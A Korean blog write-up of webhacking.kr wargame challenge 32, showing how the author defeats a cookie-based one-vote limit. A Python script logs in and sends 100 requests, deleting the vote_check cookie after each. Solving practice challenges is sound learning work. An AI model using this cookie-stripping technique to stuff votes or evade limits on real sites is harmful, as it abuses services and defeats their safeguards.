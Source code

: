 ```yaml
---
title: "[webhacking.kr] 32번 문제 풀이[Cookie]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - python
toc: true
toc_sticky: true
toc_label: "32번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 32번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152643800-937caf26-7efe-4f9c-bc91-100d0ba4705d.png)


# 문제 풀이
  자신의 아이디를 100번 클릭하면 됩니다. 이때, 한번 클릭하면 cookie 값으로 vote_check 값이 생겨서 한번 더 클릭하면 다음과 같이 막힙니다.

  ![image](https://user-images.githubusercontent.com/33647663/152643837-eefdf066-b800-4992-b212-87ddcf3c3acb.png)

  ![image](https://user-images.githubusercontent.com/33647663/152643860-3bf33095-c0d0-4b0c-a4cc-ae83f92e05da.png)

  파이썬 코드를 이용해서 100번 반복 요청을 보내고, 매 요청 뒤에 vote_check 쿠키를 삭제하도록 했습니다.

  ```python
  import requests
  def login(session):
      global datas 
      datas = {}
      print(" ------------ login ----------------------")
      datas['id'] = input("webhacking.kr id: ")
      datas['pw'] = input("webhacking.kr pw: ")
      response = session.post("https://webhacking.kr/login.php?login",data=datas)
      if( "<script>location.href='/';</script>" in response.text):
          print("login success : ",datas['id'])
      else:
          print("login Fail")
          exit(0)

  def main():
      session = requests.Session()
      login(session)
      for i in range(100):
          response = session.get("https://webhacking.kr/challenge/code-5/?hit="+datas['id'])
          session.cookies.__delitem__("vote_check")
  

  if __name__=='__main__':
      main()
  ```

  위의 코드를 실행하고 id, pw를 입력하면 풀립니다.

  


